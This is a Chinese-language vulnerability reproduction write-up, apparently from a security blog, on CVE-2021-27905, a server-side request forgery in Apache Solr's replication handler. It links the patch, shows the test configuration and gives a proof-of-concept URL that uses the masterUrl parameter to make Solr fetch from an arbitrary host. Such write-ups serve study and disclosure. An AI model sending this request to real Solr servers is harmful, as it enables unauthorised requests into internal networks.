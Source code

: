 > 原文链接: https://www.anquanke.com//post/id/238201 


# CVE-2021-27905 Apache Solr SSRF 复现


                                阅读量   
                                **120750**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p0.ssl.qhimg.com/t01204b16dfa9c385eb.png)](https://p0.ssl.qhimg.com/t01204b16dfa9c385eb.png)



## 漏洞分析

[https://github.com/apache/solr-site/blob/eb060a0d2cf1d31de403665407fff7a0255578ec/content/solr/security/2021-04-12-cve-2021-27905.md](https://github.com/apache/solr-site/blob/eb060a0d2cf1d31de403665407fff7a0255578ec/content/solr/security/2021-04-12-cve-2021-27905.md)

相应的补丁：<br>[https://github.com/apache/solr/pull/47/files/c12bbae4da0719435cf5e19623f6dad83f0c8c65#diff-838f63a8d7b764661b66c758c19cfe6f3d6454b328a1b5f52f75480530b0cfe7](https://github.com/apache/solr/pull/47/files/c12bbae4da0719435cf5e19623f6dad83f0c8c65#diff-838f63a8d7b764661b66c758c19cfe6f3d6454b328a1b5f52f75480530b0cfe7)

根据补丁以及漏洞描述可以确定 bug 出在当进行 replication 操作时对传入的 masterUrl 参数 Solr 未对其做白名单过滤导致，补丁则是增加了对该参数的过滤。

构造PoC过程中主要参考文档：<br>[https://solr.apache.org/guide/6_6/index-replication.html](https://solr.apache.org/guide/6_6/index-replication.html)

这里基本已经说明什么情况下才需要传masterUrl了

[![](https://p4.ssl.qhimg.com/t01ceb396f87b56b54f.png)](https://p4.ssl.qhimg.com/t01ceb396f87b56b54f.png)

然后根据command=fetchindex和masterUrl就可以得到PoC的格式

[http://127.0.0.1:8983/solr/db/replication?command=fetchindex&amp;masterUrl=http://xxx](http://127.0.0.1:8983/solr/db/replication?command=fetchindex&amp;masterUrl=http://xxx)

紧急分析出PoC后又看了下这里的功能是在干嘛，solr 支持配置两个core，分别是主(master)和从(slave)，我们可以主动控制让从(slave)去获取主的备份，而master的地址在配置文件可以配置，也允许请求者指定。

根据文档要复现这个漏洞需要将本地的Solr作为slave，默认solr就有多个core，这里选定任意一个db

[![](https://p2.ssl.qhimg.com/t01ed5879ae50725bd9.png)](https://p2.ssl.qhimg.com/t01ed5879ae50725bd9.png)

根据路径修改它的solrconfig.xml(配置文件)，添加如下代码：

```
&lt;requestHandler name="/replication" class="solr.ReplicationHandler" &gt;
    &lt;lst name="slave"&gt;
      &lt;str name="masterUrl"&gt;http://localhost/solr/db&lt;/str&gt;
      &lt;str name="pollInterval"&gt;00:00:20&lt;/str&gt;
    &lt;/lst&gt;
  &lt;/requestHandler&gt;
```

因为PoC 会传入masterUrl，所以这里masterUrl就随便写的。PoC:

```
http://127.0.0.1:8983/solr/db/replication\?command=fetchindex\&amp;masterUrl=http://xxxx:9999
```



## 复现结果：

[![](https://p2.ssl.qhimg.com/t012f162fe84a2e7400.png)](https://p2.ssl.qhimg.com/t012f162fe84a2e7400.png)



## 限制

所以这个漏洞的限制条件也就显而易见了：<br>
1、Solr 必须配置主从模式<br>
2、受影响的是从(slave)服务器
